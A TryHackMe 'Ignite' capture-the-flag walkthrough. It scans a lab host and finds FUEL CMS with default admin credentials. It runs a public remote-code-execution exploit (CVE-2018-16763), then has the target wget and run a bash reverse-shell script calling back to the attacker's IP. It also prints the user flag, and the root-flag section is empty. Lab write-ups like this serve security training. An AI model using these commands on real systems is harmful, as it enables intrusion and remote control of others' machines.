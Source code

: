 # Ignite

<div align="left">

<figure><img src="../.gitbook/assets/676cb3273c613c9ba00688162efc0979.png" alt="" width="128"><figcaption><p>tryhackme.com - © TryHackMe</p></figcaption></figure>

</div>

🔗 [Ignite](https://tryhackme.com/room/ignite)

### Task 1 - Deploy the machine

🎯 Target IP: `10.10.166.221`

Create a directory for machine on the Desktop and a directory containing the scans with nmap.

### Task 2 - Reconnaissance

```bash
su
echo "10.10.166.221 ignite.thm" >> /etc/hosts

mkdir thm/ignite.thm  
cd thm/ignite.thm

# At the end of the room
# To clean up the last line from the /etc/hosts file
sed -i '$ d' /etc/hosts
```

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 ignite.thm
PING ignite.thm (10.10.166.221) 56(84) bytes of data.
64 bytes from ignite.thm (10.10.166.221): icmp_seq=1 ttl=63 time=61.5 ms
64 bytes from ignite.thm (10.10.166.221): icmp_seq=2 ttl=63 time=62.8 ms
64 bytes from ignite.thm (10.10.166.221): icmp_seq=3 ttl=63 time=63.7 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix system (probably Linux), while Windows systems usually have a TTL of 128 secs.

#### 2.1 - Find open ports on the machine

```bash
nmap --open -n -Pn -vvv -T4 ignite.thm
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-02 11:12 EDT
Initiating SYN Stealth Scan at 11:12
Scanning ignite.thm (10.10.166.221) [1000 ports]
Discovered open port 80/tcp on 10.10.166.221
Completed SYN Stealth Scan at 11:12, 0.99s elapsed (1000 total ports)
Nmap scan report for ignite.thm (10.10.166.221)
Host is up, received user-set (0.068s latency).
Scanned at 2023-07-02 11:12:22 EDT for 1s
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.24 seconds
           Raw packets sent: 1000 (44.000KB) | Rcvd: 1000 (40.004KB)
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sudo</td><td>run as root</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

```bash
nmap -p80 -sCV -T4 ignite.thm -oN port_scan
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/fuel/
```

It looks like there are only one open port on the machine: HTTP.

#### Task 3 - What is the user flag? 

<figure><img src="../.gitbook/assets/Schermata del 2023-07-02 17-19-30.png" alt=""><figcaption><p>http://ignite.thm:80</p></figcaption></figure>

We can search exploit with searchsploit:

```bash
searchsploit fuel cms 1.4 
------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                  |  Path
------------------------------------------------------------------------------------------------ ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                                      | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                                      | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                                      | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                                     | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                                            | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                                | php/webapps/48778.txt
------------------------------------------------------------------------------------------------ ---------------------------------
```

Very good, there're many exploits for this CMS.

Exploring page we found a good info:

<figure><img src="../.gitbook/assets/Schermata del 2023-07-02 17-23-40.png" alt=""><figcaption></figcaption></figure>

To access the FUEL admin, go to:\
[http://ignite.thm/fuel](http://ignite.thm/fuel)\
User name: **admin**\
Password: **admin** (you can and should change this password and admin user information after logging in).

<div align="left">

<figure><img src="../.gitbook/assets/Schermata del 2023-07-02 17-25-17 (1).png" alt=""><figcaption></figcaption></figure>

</div>

<figure><img src="../.gitbook/assets/Schermata del 2023-07-02 17-26-30.png" alt=""><figcaption></figcaption></figure>

Now, we can try to exploit using a RCE exploit, first we download script from searchsploit db:

```bash
searchsploit -m 50477.py                             
  Exploit: Fuel CMS 1.4.1 - Remote Code Execution (3)
      URL: https://www.exploit-db.com/exploits/50477
     Path: /usr/share/exploitdb/exploits/php/webapps/50477.py
    Codes: CVE-2018-16763
 Verified: False
File Type: Python script, ASCII text executable
cp: overwrite '/home/kali/50477.py'? 
Copied to: /home/kali/50477.py
```

After this, we can launch exploit:

```bash
python 50477.py -u http://ignite.thm
```

<div align="left">

<figure><img src="../.gitbook/assets/Schermata del 2023-07-02 19-39-11.png" alt=""><figcaption></figcaption></figure>

</div>

We need to do a reverse shell, we start to:

Retrieve our ip address:

```bash
ip -br -c a
```

and create a shell file with nano:

```bash
nano shell.sh
```

Insert this line for a bash reverse shell:

```bash
/bin/bash -i >& /dev/tcp/10.0.2.15/3333 0>&1
```

Setup a Python web server and a `nc` listener on 2 different tabs:

1st tab:

```bash
python -m http.server
```

2nd tab:

```bash
nc -nvlp 3333
```

Now, we can return in the exploited Fuel CMS tab, and do this commands:

```bash
wget http://10.0.2.15:8000/shell.sh -O shell.sh
bash shell.sh
```

Reverse shell received in the `nc` terminal:

```bash
/usr/bin/script -qc /bin/bash /dev/null
cd /home/www-data
ls
cat flag.txt
```

<details>

<summary>🚩 Flag 1 (user.txt)</summary>

`6470e394cbf6dab6a91682cc8585059b`

</details>

#### Task 4 - What is the root flag? 

<details>

<summary>🚩 Flag 2 (root.txt)</summary>



</details>
